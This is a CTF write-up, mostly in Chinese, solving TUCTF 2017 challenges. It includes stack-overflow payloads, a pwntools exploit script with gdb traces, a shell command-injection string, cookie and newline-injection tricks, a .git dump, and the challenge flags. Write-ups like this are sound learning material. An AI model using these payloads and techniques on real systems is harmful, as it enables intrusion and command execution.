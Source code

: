 # TUCTF 2017


## vuln chat

第一個scanf %30s

可以控到第二個scanf的format string

然後第二個scanf蓋夠長就能直接蓋到main的return address

payload:

`perl -e 'print "A"x20,"%90s\n","A"x49,"\x6B\x85\x04\x08\n"'`

`TUCTF{574ck_5m45h1n6_l1k3_4_pr0}`


## vuln chat 2.0

直接蓋最後兩bytes

跳到print_flag

exp:

```
from pwn import *

r = remote('vulnchat2.tuctf.com', 4242)

r.sendline('aaa')
sleep(1)
r.send('a'*43 + "\x72\x86")

r.interactive()
```


## guestbook

直接read第6個，可以把一些dest渣渣和system給leak出來

然後直接change name去改dest，因為gets可以讀無限長

所以理論上可以直接蓋到return address

但要注意中間有東西會被蓋壞 (strcpy那邊)

跟一下可以發現

這邊應該是index被蓋掉了

蓋回0就行

```
0x5655597d <main+443>:   call   0x56555550 <gets@plt>
0x56555982 <main+448>:    add    esp,0x4
0x56555985 <main+451>: mov    eax,DWORD PTR [ebp-0x34]
=> 0x56555988 <main+454>:  mov    eax,DWORD PTR [ebp+eax*4-0x2c]
0x5655598c <main+458>:  lea    edx,[ebp-0x98]
0x56555992 <main+464>:   push   edx
0x56555993 <main+465>:    push   eax
0x56555994 <main+466>: call   0x56555570 <strcpy@plt>
```

index的offset的話就是 0x98 - 0x34


除了這邊，還有一個地方會爛：

正常：

```
   0x5655598c <main+458>:       lea    edx,[ebp-0x98]
   0x56555992 <main+464>:       push   edx
   0x56555993 <main+465>:       push   eax
=> 0x56555994 <main+466>:       call   0x56555570 <strcpy@plt>
   0x56555999 <main+471>:       add    esp,0x8
   0x5655599c <main+474>:       jmp    0x565559b3 <main+497>
   0x5655599e <main+476>:       mov    BYTE PTR [ebp-0x9],0x0
   0x565559a2 <main+480>:       jmp    0x565559b3 <main+497>
Guessed arguments:
     arg[0]: 0x56558008 --> 0x61 ('a')
     arg[1]: 0xffffd540 --> 0xffff0078 --> 0x0
```

不正常：

```
   0x5656e98c <main+458>:       lea    edx,[ebp-0x98]
   0x5656e992 <main+464>:       push   edx
   0x5656e993 <main+465>:       push   eax
=> 0x5656e994 <main+466>:       call   0x5656e570 <strcpy@plt>
   0x5656e999 <main+471>:       add    esp,0x8
   0x5656e99c <main+474>:       jmp    0x5656e9b3 <main+497>
   0x5656e99e <main+476>:       mov    BYTE PTR [ebp-0x9],0x0
   0x5656e9a2 <main+480>:       jmp    0x5656e9b3 <main+497>
Guessed arguments:
     arg[0]: 0x0                           <============   這個炸惹
     arg[1]: 0xff9675b0 --> 0x0
```


改用 r.sendline("\x00"*108 + p32(0xdeadbeef)*1 + p32(0) * 11 + p32(system_addr) + p32(sh) * 2) 後：

```
Guessed arguments:
     arg[0]: 0xdeadbeef                    <============  108 ~ 112的位置
     arg[1]: 0xffbb7ad0 --> 0x0
```

## The nerver ending crypto

英文+特殊符號的凱薩加密

共50回合


`TUCTF{wh0_w@s_her3_la5t_ye@r?!?}`


## High source

從source code可以找到密碼

view-source:http://highsource.tuctf.com/scripts/login.js

password: `I4m4M4st3rC0d3rH4x0rsB3w43`

`TUCTF{H1gh_S0urc3_3qu4ls_L0ng_F4ll} `


## Cookie Duty 

cookie: `not_admin: 1 -> 0`

`TUCTF{D0nt_Sk1p_C00k13_Duty}`


## Git Gud

dump /.git

`git reset 22f63ceab55efe05c5448676a3470b13b6545f74`

`git diff`

`TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}`


## Cookie Harrelson

cookie中可以看到一串base64

decode後發現是cat index.txt

踹踹看送cat flag可以發現前面會加上註解

用\n cat flag就可以繞過 (要先base64，再塞進cookie)


## iframe and shame

payload:

`search=https://youtube.com/watch?v=qqqasda";cat flag|head -1; "`

`TUCTF{D0nt_Th1nk_H4x0r$_C4nt_3sc4p3_Y0ur_Pr0t3ct10ns}`


## Funmail

直接找username, password

就能登入看flag


## Funmail2.0

直接gdb跳過去print_flag


## I'm playing

登入discord即可看到flag

